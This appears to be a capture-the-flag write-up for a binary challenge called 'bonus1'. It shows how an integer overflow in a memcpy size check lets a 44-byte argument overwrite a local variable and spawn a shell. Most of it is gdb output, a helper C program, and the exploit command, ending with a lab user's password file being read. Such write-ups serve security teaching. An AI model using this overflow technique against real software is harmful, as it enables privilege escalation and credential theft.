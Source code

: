 ## Over and under the flow (bonus1)

This [binary](source.c) takes at least an argument or it segfaults. The
[atoi](https://linux.die.net/man/3/atoi) function is called on it. The result,
let's call it _n_ must be less than 10 for the second argument to be copied
into _main_'s local buffer. Finally _n_ must be equal to 0x574f4c46 for
[execl](https://linux.die.net/man/3/execl) to open a shell.

A simple [memcpy](https://linux.die.net/man/3/memcpy) is used to copy the second
argument's contents into _main_'s 40 bytes _buffer_. The size parameter passed
to is is _n_ * 4. So the name of the game here is to find a value for that will
pass the first test (be less than 10) and that multiplied by 4 will underflow to
a value big enough for overwring _n_ itself with the value it is compared
against.

First, skip the first test and find a working payload for the second argument:

```shell
# run gdb on the binary
gdb ./bonus1
# see the main
(gdb) disass main
Dump of assembler code for function main:
...
0x08048468 <+68>:    mov    %ecx,0x8(%esp)
0x0804846c <+72>:    mov    %edx,0x4(%esp)
0x08048470 <+76>:    mov    %eax,(%esp)
0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
0x08048478 <+84>:    cmpl   $0x574f4c46,0x3c(%esp)
...
End of assembler dump.
# break just before the memcpy call to see its arguments
(gdb) b *0x08048473
Breakpoint 1 at 0x8048473
# run with 1 as a value for n and what should be our payload
(gdb) run 1 `python -c 'print "a" * 40 + "\x57\x4f\x4c\x46"[::-1]`
Starting program: /home/user/bonus1/bonus1 1 `python -c 'print "a" * 40 + "\x57\x4f\x4c\x46"[::-1]'`

Breakpoint 1, 0x08048473 in main ()
# the destination buffer
(gdb) x $eax
0xbffffaf4:     0x00080000
# the second argument (argv[2])
(gdb) x $edx
0xbffffd2a:     0x61616161
# the n value * 4 for the size
(gdb) x $ecx
0x4:    Cannot access memory at address 0x4
# which is located here
(gdb) x $esp + 8
0xbffffae8:     0x00000004
# if we replace it with the length of our payload
(gdb) set *0xbffffae8 = 44
(gdb) x $esp + 8
0xbffffae8:     0x0000002c
# and run
(gdb) c
Continuing.
# we're in
process 22942 is executing new program: /bin/dash
```

Now that we our payload works, let's get the value of _n_ we need with the help
of this little program:

```C
#include <stdio.h>
#include <stdlib.h>

int	main(int argc, char **argv)
{
	int	n = 0;

	if (argc > 1)
		n = atoi(argv[1]);
	else
		for (n = -1; n < 0 && n * 4 != 44; --n);
	printf("%d * 4 = %d\n", n, n * 4);
	return (0);
}
```

It will simply loop on negative values starting with -1 (which way too high by
the way, since it will not underflow until at least INT32\_MAX/4, but who
cares?) and stop when it finds a negative value that multiplied by 4 will
underflow to 44, which is the number of bytes we want to write to change _n_'s
value.

```shell
# compile the program
gcc underflow.c
# run it
./a.out
-1073741813 * 4 = 44
```

And there we go. A value that will both pass the first test and make it so the
payload is written as it should.

```shell
# set the arguments
N=-1073741813
PAYLOAD=$(python -c 'print "a" * 40 + "\x57\x4f\x4c\x46"[::-1]')
# run the program
./bonus1 $N $PAYLOAD
# enjoy your shell
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

And we're done!
